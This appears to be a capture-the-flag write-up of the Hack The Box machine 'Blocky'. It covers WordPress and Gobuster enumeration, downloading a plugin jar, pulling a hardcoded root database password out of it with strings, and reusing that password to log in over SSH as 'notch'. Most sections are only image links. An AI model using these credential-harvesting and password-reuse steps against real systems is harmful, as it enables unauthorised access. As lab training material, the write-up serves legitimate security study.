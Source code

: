 # 10 - BlockyCraft


# Wordpress
![](vx_images/4034045248984.png)

# Username

![](vx_images/1785962486397.png)



# New core plugin

![](vx_images/1819605716508.png)




# Gobuster
![](vx_images/2010611515600.png)

WPScan couldn't file any plugins other than akismet and yet `/wiki/` mentions that there is a new core plugin. See [06 - WPScan.md]()
Gobuster reveals `/plugins` directory. A quick google search on default wordpress plugins directory points us [here](https://wordpress.stackexchange.com/questions/15933/where-are-plugins-located)

Wordpress plugins are located in

* /wp-content/plugins
* /wp-content/mu-plugins

directories. `/plugins` doesn't seem to be one of the them.


# Plugins

![](vx_images/5927542841351.png)

# Download and go through the files
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]
└──╼ $ wget http://10.10.10.37/plugins/files/BlockyCore.jar
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]
└──╼ $ find . -type f                         
./BlockyCore.jar                      
./META-INF/MANIFEST.MF     
./com/myfirstplugin/BlockyCore.class
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]                                                                                                                               
└──╼ $ strings ./com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                   
java/lang/Object
sqlHost                                                                                        
Ljava/lang/String;                                                                                                                                                                            
sqlUser
sqlPass
<init>
Code
        localhost
root                                                                        # root
8YsqfCTnvxAUeduzjNSXe22                                                     # password
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

There is some hardcoded credentials
* root:8YsqfCTnvxAUeduzjNSXe22



# SSH notch

After my first failed attempt I decided to give `notch` a shot
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky]
└──╼ $ ssh -l notch 10.10.10.37
notch@10.10.10.37's password: 
Permission denied, please try again.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ 
```